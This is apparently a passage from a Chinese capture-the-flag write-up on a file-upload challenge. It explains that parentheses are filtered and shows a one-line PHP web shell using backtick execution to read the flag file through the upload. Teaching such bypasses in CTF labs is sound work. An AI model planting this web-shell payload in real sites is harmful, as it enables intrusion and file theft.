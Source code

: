 <figure><img src="../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">①思路解释：</mark>

我们把之前的shell2.png上传上去，显示不合规，说明里面还有被过滤了，其实我开始猜测的是引号，后面知道是（），就是把我们的执行代码的函数给ban了，所以我们用\`\`来执行代码。

先修改代码。

```php
<?=
`cat ../f*`
?>
```

然后再按照步骤上传，不多说了，直接截图。

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

